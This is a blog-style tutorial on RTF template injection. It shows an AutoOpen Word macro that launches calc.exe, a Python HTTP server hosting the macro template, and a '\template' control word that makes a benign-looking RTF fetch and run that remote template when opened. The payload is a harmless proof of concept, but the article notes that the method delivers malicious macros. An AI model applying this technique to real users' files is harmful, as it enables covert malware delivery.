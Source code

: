 ```yaml
---
layout: post
title: 'RTF Template Injection'
date: '2022-02-09'
description: 'In this example, we will demonstrate how to use the “template” control word to cause an RTF file to pop up the calculator app when opened.  “Hold on... I can use the Start menu to do that. Why should I care?”, you may wonder. The simple answer is that this technique can be easily modified to spread malicious macros using otherwise benign looking RTF files.'
coverimage: RTF_Template_Injection.jpg
tags: exploit-development rtf
published: true
posttype: article
categories: article
---
```


In this example, we will demonstrate how to use the “template” control word to cause an RTF file to pop up the calculator app when opened.  “Hold on... I can use the Start menu to do that. Why should I care?”, you may wonder. The simple answer is that this technique can be easily modified to spread malicious macros using otherwise benign looking RTF files.

## What is an RTF file?

Tapping away in front of your Macintosh or the early versions of Windows, did you ever wonder what those .rtf files (Rich Text Format) were that you ever so occasionally encountered? The ones that were opened up with text editors (featuring a horizontal ruler) other than your trusted notepad?

RTF traces back to the late 1980s when it was developed and released. Rich text format files, as opposed to plain text files, can contain images, different font styles, formatting, and more. They are interoperable, which means they can be processed by a wide range of technologies, making them a portable file type. 

## Why should I care?

"Why should I care?" you might wonder. The short answer is that with little modification, this technique can be leveraged to spread malicious macros in otherwise benign RTF files - as actively being done by threat actor groups online. Within RTF files, specific control words (see http://latex2rtf.sourceforge.net/rtfspec_62.html for more) are used. These control words are specially formatted commands that instruct applications how to handle the file. Let us get started!  

# Instructions - RTF template injection with a calculator pop-up

In this example, we will demonstrate how to use the "template" control word to cause an RTF file to fetch another file from a web server controlled by us.  This example makes use of the template editing capabilities of RTF files, as well as the ability to fetch resources from a specified URL. The code we will use opens up a calculator on a Windows-based operating system when the RTF file is run. Note that macros will require enabling on your system.

<h5 class="step">Step 1 - Create a macro-enabled Word template file</h5>

This file will contain our macro that executes the calculator app when the RTF file is opened. 

Open Word and add the following Visual Basic code (macro) to it. Save the file as `calc.dotm`. 

```
Sub AutoOpen()
Dim Program As String
Dim TaskID As Double
Program = "calc.exe"
TaskID = Shell(Program, 1)
End Sub
```

*If you are unfamiliar with creating Word template files, we recommend checking out Microsoft's documentation on them: https://support.microsoft.com/en-us/office/save-a-word-document-as-a-template-cb17846d-ecec-49d4-82ea-a6f5e3e8b9ae.*

<h5 class="step">Step 2 - Start a web server</h5>

Launch an HTTP server in the folder containing the 'calc.dotm' file using your preferred method. If you are using Python 3, you can use the following command with the port number of your choice. 

```
python3 -m http.server <port number>
```

<h5 class="step">Step 3 - Create a benign RTF file</h5>

Get or make a simple RTF file. We will modify this in the next step to fetch our macro-enabled template file from the web server launched.

![](5e05c49b-2704-464a-9eb8-6afe16b298ec.png)

*There are sample RTF files you can use available online. Please always have your anti-virus solution enabled when downloading files from the Internet.*

<h5 class="step">Step 4 - Add remote template fetching capabilities to the RTF file</h5>

Use a HEX editor to open the RTF file created in the previous step. I used Hex Editor Neo. 

Look for a pre-existing enclosing group for a font family control word (for example, Times New Roman if your file uses it). Insert the following text after the font's ending tag with your listening IP and port + payload/file to fetch. 

```
{\*\template http://<your-IP>:<port number>/calc.dotm}
```

![](514cab5a-57fa-4783-9db1-35ca3867a8ef.png)

<h5 class="step">Step 5 - Show time</h5>

Save the changes and open the RTF file in its default application. If you are a Windows user, this will likely be Word. The remote file will be loaded from your web server and used to launch the calculator program when the RTF file is opened.

The below screen capture displays the macro-enabled template file being fetched.

![](20e0eb7d-9a66-4ff2-991c-366e9a7a3d84.png)

The below screen capture displays the RTF file opened and the calculator app launched.

![](c6ec75ba-dad0-4755-903a-7de8f5065320.png)

### Well that was easy... Where to from here?

I hope this article has served as a foundation for your further explorations. Why not look into creating your custom macro-enabled template files next?